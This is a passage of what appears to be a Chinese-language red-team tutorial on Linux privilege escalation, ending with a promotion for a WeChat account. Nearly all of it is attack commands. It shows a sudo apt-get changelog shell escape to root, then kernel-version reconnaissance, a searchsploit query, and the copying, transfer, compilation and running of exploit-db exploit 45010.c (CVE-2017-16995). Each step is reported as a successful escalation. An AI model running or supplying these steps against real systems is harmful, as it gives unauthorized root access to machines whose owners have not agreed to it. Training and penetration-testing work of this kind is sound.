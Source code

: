 ```armasm
su - root
aa-status
发现
/usr/sbin/tcpdump
```

换一个apt-get

```armasm
sudo apt-get changelog apt
!/bin/sh
```

提权成功

### 17.4.3 内核漏洞提权

查看架构及内核版本信息

```armasm
cat /etc/issue
uname -r
arch
```

搜索漏洞

```armasm
searchsploit "linux kernel Ubuntu 16 Local Privilege Escalation"   | grep  "4." | grep -v " < 4.4.0" | grep -v "4.8"
```

```armasm
cp /usr/share/exploitdb/exploits/linux/local/45010.c .
head 45010.c -n 20
mv 45010.c cve-2017-16995.c
scp cve-2017-16995.c joe@192.168.123.216:
gcc cve-2017-16995.c -o cve-2017-16995
file cve-2017-16995
./cve-2017-16995
```

提权成功

更多更新资料（微信公众号：TopRedTeam）

![](./qrcode.jpg)
